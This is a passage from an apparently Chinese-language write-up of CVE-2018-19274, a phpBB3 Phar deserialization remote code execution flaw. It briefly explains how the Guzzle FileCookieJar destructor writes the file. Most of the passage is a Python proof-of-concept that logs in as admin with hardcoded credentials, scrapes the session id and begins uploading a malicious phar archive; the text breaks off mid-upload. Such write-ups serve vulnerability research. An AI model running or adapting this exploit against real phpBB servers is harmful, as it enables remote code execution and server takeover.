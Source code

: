 文件位置：`phpBB3/vendor/guzzlehttp/guzzle/src/Cookie/FileCookieJar.php`

![17.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId44.png)

析构函数调用`save`函数，最后使用`file_put_contents`完成文件写入，整个漏洞利用完成。

### poc

    # coding =utf-8

    import requests
    from bs4 import BeautifulSoup
    import re

    proxies = {
        "http": "http://127.0.0.1:8080",
    }

    import hashlib


    def md5(str):
        m = hashlib.md5()
        m.update(str.encode("utf8"))
        return m.hexdigest()


    if __name__ == '__main__':
        target = "http://bugtest.com/phpBB3"
        admin_account = 'admin'
        admin_pwd = '123456'
        phar_payload = 'payload.phar.zip'
        upfilename = 'rai4over.zip'

        r = requests.Session()
        data = {
            'username': admin_account,
            'password': admin_pwd,
            'login': 'Login'
        }
        print('Start logging in to the administrator account')
        rs = r.post(target + '/ucp.php?mode=login', data=data)
        html = rs.text

        if ('header-profile dropdown-container' in html) and ("class=\"username-coloured\">" + admin_account in html):
            print('OK! The administrator account is successfully logged in')
        else:
            exit('No! Login failed . Probably because of the verification code')

        soup = BeautifulSoup(html, "html.parser")
        input = soup.find('input', attrs={'name': 'sid'})
        sid = input['value']

        file = {
            'fileupload': open(phar_payload, "rb").read()
